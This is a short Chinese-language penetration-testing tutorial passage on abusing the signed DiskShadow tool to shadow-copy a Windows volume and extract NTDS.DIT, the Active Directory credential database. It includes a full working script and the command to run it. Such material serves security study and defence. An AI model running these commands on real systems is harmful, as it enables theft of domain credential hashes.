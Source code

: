 ### diskshadow

DiskShadow 是 Microsoft 签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初 bohops 在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行 NTDS.DIT 提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本，在使用时需要注意一点，DiskShadow 二进制文件需要从 C\\Windows\\System32 路径执行，如果从另一个路径调用它，脚本将无法正确执行：

```bash
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds.dit
delete shadows all
reset
```

在 cmd 下执行以下命令：

```bash
diskshadow.exe /s c:\diskshadow.txt
```

[![](assets/1706090550-9d338a59759aa7e057f0a6e959a56022.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095942-3d568cf6-ba5c-1.png)  
之后查看 c 盘可以看到成功复制文件：
